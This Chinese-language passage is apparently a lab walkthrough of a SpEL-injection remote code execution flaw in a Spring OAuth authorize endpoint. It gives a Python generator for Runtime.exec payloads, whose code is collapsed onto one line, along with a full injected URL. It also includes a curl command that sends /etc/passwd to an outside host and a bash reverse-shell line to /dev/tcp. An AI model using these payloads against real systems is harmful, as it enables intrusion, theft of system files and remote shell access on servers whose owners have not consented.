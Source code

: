 ![](https://gitee.com/fuli009/images/raw/master/public/20210817101930.png)

出现以下界面则存在漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20210817101932.png)

使用github上找到的poc对传入值进行处理

    
    
    #!/usr/bin/env pythonmessage = input('Enter message to encode:')poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])for ch in message[1:]:    poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)poc += ')}'print(poc)

![]()

这里我传入一个whoami，返回了一个payload

![](https://gitee.com/fuli009/images/raw/master/public/20210817101933.png)

将这个payload拼接到之前的网址里面访问可以发现，这里返回了一个`[java.lang.UNIXProcess@f2e3e13]`，说明代码已经执行了

    
    
    http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105)))}&client_id=acme&scope=openid&redirect_uri=http://test

![](https://gitee.com/fuli009/images/raw/master/public/20210817101934.png)

这里使用curl发送一个请求即可得到回显得内容

    
    
    curl 192.168.1.2:5555 -d "$(cat /etc/passwd)"

![](https://gitee.com/fuli009/images/raw/master/public/20210817101935.png)

这里再使用nc监听尝试反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20210817101936.png)

使用到bash反弹，这里需要绕过exec()变形

    
    
    bash -i >& /dev/tcp/192.168.1.2/5555 0>&1

使用http://www.jackson-t.ca/runtime-exec-payloads.html进行payload处理

![](https://gitee.com/fuli009/images/raw/master/public/20210817101937.png)

将处理后的命令再放入poc.py

![](https://gitee.com/fuli009/images/raw/master/public/20210817101938.png)

得到新的payload并拼接到网址里面
